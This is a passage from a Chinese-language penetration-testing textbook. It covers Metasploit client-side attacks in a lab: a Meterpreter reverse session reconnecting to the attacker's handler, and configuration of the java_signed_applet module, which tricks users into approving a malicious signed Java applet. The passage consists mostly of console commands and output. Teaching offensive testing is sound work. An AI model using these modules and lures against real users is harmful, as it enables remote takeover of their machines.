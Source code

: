```
msf  exploit(java_jre17_jmxbean) > **sessions -i 1**
[*] Starting interaction with 1...

meterpreter > **detach**

[*] 10.0.1.16 - Meterpreter session 1 closed.  Reason: User exit
msf  exploit(java_jre17_jmxbean) >
[*] 192.168.20.12:49204 Request received for /WzZ7_vgHcXA6kWjDi4koK/...
[*] Incoming orphaned session WzZ7_vgHcXA6kWjDi4koK, reattaching...
[*] Meterpreter session 2 opened (192.168.20.9:8080 -> 192.168.20.12:49204) at 2015-05-05 19:15:45 -0400 ❶
```

如你所见，HTTP Meterpreter 有效载荷的处理程序仍在后台运行。稍等几秒钟，你应该能看到一个新会话自动打开，而无需用户重新访问攻击页面，如 ❶ 所示。除非会话已正式退出，否则有效载荷会继续尝试重新连接 Metasploit。（你可以使用 `SessionCommunicationTimeOut` 参数指定会话尝试重新连接的时间，这是有效载荷的高级选项。）

但如果你的渗透测试目标在更新 Java 方面非常勤奋，并且目前互联网上没有针对该软件的零日漏洞会怎么样呢？

#### 签名的 Java Applet

与 PDF 嵌入式可执行文件中讨论的针对 PDF 用户的攻击类似，我们可以通过简单地要求用户允许我们运行恶意代码来绕过未修补的 Java 漏洞。你可能见过类似这样的浏览器警告：“此站点希望在您的浏览器中运行此内容，您希望如何操作？”有时即便是安全意识强的用户，如果被说服认为对方内容有用，他们也可能会直接点击“是”并跳过警告，而不做进一步调查。

本示例中我们将使用的模块是*exploit/multi/browser/java_signed_applet*。顾名思义，该模块将创建一个恶意的 Java 小程序，如示例 10-18 所示。

示例 10-18. Metasploit 签名的 Java 小程序模块

```
msf  exploit(java_jre17_jmxbean) > **use exploit/multi/browser/java_signed_applet**
msf  exploit(java_signed_applet) > **show options**

Module options (exploit/multi/browser/java_signed_applet):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   APPLETNAME      SiteLoader       yes       The main applet's class name.
  ❶CERTCN          SiteLoader       yes       The CN= value for the certificate. Cannot contain
                                                ',' or '/'
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an
                                                address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL for incoming connections
   SSLCert                          no        Path to a custom SSL certificate (default is
                                                randomly generated)
   SSLVersion      SSL3             no        Specify the version of SSL that should be used
                                                (accepted: SSL2, SSL3, TLS1)
  ❷SigningCert                      no        Path to a signing certificate in PEM or PKCS12
                                                (.pfx) format
   SigningKey                       no        Path to a signing key in PEM format
   SigningKeyPass                   no        Password for signing key (required if SigningCert
                                                is a .pfx)
   URIPATH                          no        The URI to use for this exploit (default is
                                                random)

Exploit target:

   Id  Name
   --  ----
  ❸1   Windows x86 (Native Payload)

msf  exploit(java_signed_applet) > **set APPLETNAME BulbSec**
APPLETNAME => Bulb Security
msf  exploit(java_signed_applet) > **set SRVHOST 192.168.20.9**
SRVHOST => 192.168.20.9
msf  exploit(java_signed_applet) > **set SRVPORT 80**
SRVPORT => 80
```